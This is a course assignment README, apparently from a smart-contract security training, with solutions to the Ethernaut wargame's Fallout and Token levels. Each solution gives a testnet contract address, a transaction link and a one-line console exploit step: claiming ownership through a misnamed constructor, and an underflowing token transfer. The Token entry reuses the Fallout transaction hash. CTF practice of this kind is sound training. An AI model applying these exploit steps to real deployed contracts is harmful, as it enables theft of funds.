 # Ethernaut Capture the Flag (CTF)
The Ethernaut is a Web3/Solidity based wargame inspired by overthewire.org, played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'. The game is 100% open source and all levels are contributions made by other players.

# Assignments

## Submission
Please create a pull request with:
- The instance address of the contract you submitted
- Your wallet address
- The testnet you are using
- Any code you wrote for your exploit

## Ethernaut Level 2 Fallout
https://ethernaut.openzeppelin.com/

## Solution:
Network: ploygon matic

instance: 0x6B2a9DA650759160AaA69068177AAf6d25f786B4

tx: https://mumbai.polygonscan.com/tx/0x2b049839f33372e3077cd0a25a4e5b47bb0961281e21f96ca2047491f321072c 

Steps:

> await contract.fal1out()


## Read through through audit report and 

Read through the following audit report and write a detailed description about one of the vulnerabilities as a comment on this issue: https://github.com/KITTLABS/web3-Q2-security-training/issues/1


https://code4rena.com/reports/2022-11-canto


# Optional Assignment
Hint: This level can be exploited with one of the attack vectors we went over in session 2.
## Ethernaut Level 5 Token
https://ethernaut.openzeppelin.com/

Network: ploygon matic

instance: 0x7571eEeBD96Ac74EE9DA5b0DE9a1a3152Da7632F

tx: https://mumbai.polygonscan.com/tx/0x2b049839f33372e3077cd0a25a4e5b47bb0961281e21f96ca2047491f321072c

Steps:

> await contract.transfer(contract.address, 21)

